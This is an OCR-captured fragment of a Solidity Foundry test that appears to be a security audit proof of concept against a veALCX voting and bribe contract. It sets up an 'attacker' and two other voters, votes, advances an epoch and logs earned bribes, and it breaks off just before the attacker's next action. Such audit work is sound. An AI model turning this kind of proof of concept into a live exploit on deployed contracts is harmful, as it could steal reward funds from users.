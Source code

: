 ```solidity
    
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 
        
    }

    function testBribeClaimingPoke_Normal() public {

      
        address attacker = address(this) ; 
        uint256 tokenId1 = createVeAlcx(address(this), TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        
        hevm.prank(Alice);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId3, pools, weights, 0);

        uint256 earnedBribes0 = IBribe(bribeAddress).earned(bal, tokenId1); 

        assertEq(earnedBribes0, 0, "no bribes should be earned yet"); 
        console2.log("earnedBribes0", earnedBribes0); 

        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);
        
        console2.log("Fast forward 1 epoch"); 
        // Start second epoch
        hevm.warp(newEpoch()); 
        
        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1); 
        console2.log("earnedBribes1", earnedBribes1); 
        
         earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

         earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3); 

        hevm.prank(attacker);
```